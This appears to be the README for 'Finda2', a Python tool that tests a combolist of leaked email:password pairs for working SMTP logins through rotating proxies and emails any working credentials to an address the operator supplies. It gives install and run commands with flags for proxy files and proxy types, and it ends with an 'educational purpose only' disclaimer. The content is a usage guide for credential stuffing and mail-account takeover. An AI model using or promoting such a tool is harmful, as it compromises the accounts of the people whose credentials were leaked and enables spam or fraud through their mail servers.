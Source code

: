 # Finda2
Find working smtp from combolist. list format email:pass.

install python https://www.python.org

on your command prompt. type cd into the finda foler and run the following command.

''' pip install -r requirement.txt '''

''' python finda.py combolist.txt -s sockfile.txt -p sock5 -e emailtogetlog@example.com '''

-s flag followed by a file name with proxies in the following format 0.0.0.0:80, it could be http, sock4 or sock5.

-p specify the proxy type.

-e the email address you would like to get working smtp logs. if finda finds a working smtp it will send a message using that smtp to specified email address.

#this tool is for educational purpose only. i will not be held responsible for how the public uses it.
